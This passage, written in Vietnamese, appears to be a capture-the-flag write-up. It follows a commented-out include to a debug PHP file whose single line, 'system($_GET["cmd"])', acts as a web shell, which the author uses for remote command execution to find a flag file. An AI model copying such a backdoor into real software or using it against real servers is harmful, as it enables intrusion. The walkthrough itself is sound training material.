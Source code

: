 Đến trang `content/about-us` thì mình thấy có một đoạn code php bị comment 

```php
<?php 
	// include "../includes/debug.php";
?>
```

Có thể có sự tồn tại của file `/includes/debug.php` này trên server nên mình sẽ thử đọc nó

```php
<?php
	// Debug for developer
	system($_GET["cmd"]);
?>
```

File này có thể thực thi lệnh shell thông qua `?cmd=` nên mình sẽ thử sử dụng file này để khai thác

Đến đây là có thể RCE được rồi, việc còn lại là tìm flag thôi

![image-20230308144007313](./assets/image-20230308144007313.png)

Mình có thể thấy một file khả nghi `/super_saiyan_flag.txt`

![image-20230308144149580](./assets/image-20230308144149580.png)
